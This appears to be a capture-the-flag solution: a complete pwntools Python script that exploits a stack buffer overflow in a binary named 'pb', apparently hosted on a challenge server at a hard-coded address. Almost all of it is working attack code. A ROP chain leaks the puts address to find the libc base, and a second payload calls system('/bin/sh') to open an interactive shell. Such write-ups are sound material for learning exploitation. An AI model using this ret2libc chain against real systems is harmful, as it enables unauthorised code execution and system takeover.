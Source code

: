 The whole script:
```python
from pwn import *

elf = ELF('./pb')
libc = elf.libc

if args.REMOTE:
    p = remote('165.232.98.59', 32729)
else:
    p = process(elf.path)

def get_overflow():
    print(p.recvuntil('>>').decode('utf-8'))
    p.sendline("2")
    print(p.recvuntil(': ').decode('utf-8'))

def leak_libc():
    payload= b"A" * 56 # paddding
    payload+= p64(0x40142b) # pop rdi
    payload+= p64(0x403fa0) # got_put
    payload+= p64(0x401030) # plt_put
    payload+= p64(0x4012c2) # adress of box function

    p.sendline(payload)
    p.recvuntil(b'thank you!\n\n')
    leak = u64(p.recvline()[:-1].ljust(8,b'\x00'))
    return leak
    

with log.progress("Step 1: Leak libc address, print the address of puts"):
    get_overflow()
    leak = leak_libc()
    log.info("Leaked puts: " + str(hex(leak)))
    libc.address = leak - 0x80ed0 #libc.symbols['puts']
    
with log.progress("Step 2: use onegadget to get shell"):
    get_overflow()

    system = libc.sym.system 
    bin_sh = libc.search(b"/bin/sh").__next__() 

    payload=b"A"*56
    payload+=p64(0x401016) # ret
    payload+=p64(0x40142b) # pop rdi
    payload+= p64(bin_sh)
    payload+= p64(system)
   
    p.sendline(payload)	
    p.interactive()
```
